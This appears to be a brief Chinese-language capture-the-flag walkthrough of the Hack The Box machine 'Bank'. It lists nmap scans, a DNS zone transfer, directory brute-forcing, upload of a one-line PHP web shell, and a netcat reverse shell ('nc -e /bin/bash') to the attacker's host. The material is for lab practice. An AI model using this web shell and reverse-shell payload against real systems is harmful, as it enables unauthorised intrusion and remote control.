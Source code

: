 
# Bank

* 扫端口
``` 
nmap -p- -oA full-port 10.10.10.29 
nmap -p22,53,80 -sV -A -oA targeted-script 10.10.10.29 
```
* dns 
``` 
dig axfr @10.10.10.29 bank.htb
dig @10.10.10.29 bank.htb

nslookup
> server 10.10.10.29 
```

* 扫描
``` 
gobuster -t 50 -w /usr/sharewordlist/dirbuster/directory.txt -u http://bank.htb -f -x php 
```

* 访问页面时候发现302跳转，阻止302跳转，得到隐藏页面
* 上传一句话文件
``` 
<?php echo shell_exec($_GET['e'].'2>&1');?>
cp shell.txt shell.htb 
```
* 执行
``` 
nc -nvlp 9000
?e=nc -e /bin/bash 10.10.14.16 9000

python -c "import pty; pty.spawn('/bin/bash')" 
```

